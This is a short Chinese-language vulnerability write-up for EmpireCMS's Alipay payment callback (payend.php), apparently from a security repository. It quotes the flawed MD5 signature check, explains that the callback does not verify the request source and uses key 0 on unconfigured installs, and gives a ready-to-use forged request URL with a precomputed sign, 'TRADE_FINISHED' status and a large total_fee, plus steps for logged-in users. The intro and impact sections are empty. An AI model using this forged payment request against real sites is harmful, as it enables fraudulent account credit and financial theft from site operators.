 EmpireCMS 任意充值漏洞
======================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

漏洞文件

> https://www.0-sec.org/EmpireCMS/upload/e/payapi/alipay/payend.php

漏洞详情

首先在`/e/payapi/alipay/payend.php`

    $sign='';

    foreach($_GET AS $key=>$val)

    {

    if($key!='sign'&&$key!='sign_type'&&$key!='code')

    {

    $sign.="$key=$val&";

    }

    }



    $sign=md5(substr($sign,0,-1).$paykey);

    print($sign);

    if($sign!=$_GET['sign'])

    {

    printerror('验证MD5签名失败.','../../../',1,0,1);

这个是sign签名的验证没有检测来源是否为支付宝链接而且没有安装情况下key为0

所以我们可以自己构造sign

    https://www.0-sec.org/EmpireCMS/upload/e/payapi/alipay/payend.php?sign=63b90f066d744a4d53150045837bd90d&trade_status=TRADE_FINISHED&trade_no=1111&out_trade_no=aaaaaa&total_fee=11111111

`sign=63b90f066d744a4d53150045837bd90d`是get的数组的md5值

当然需要登录情况下还要自己手动在用户中心提交次订单，系统会设置cookie满足条件然后在到我们sign的地方

提交后7.png8.png

参考链接
--------

> https://man-hin.lofter.com/post/37bd50\_1c886dc36
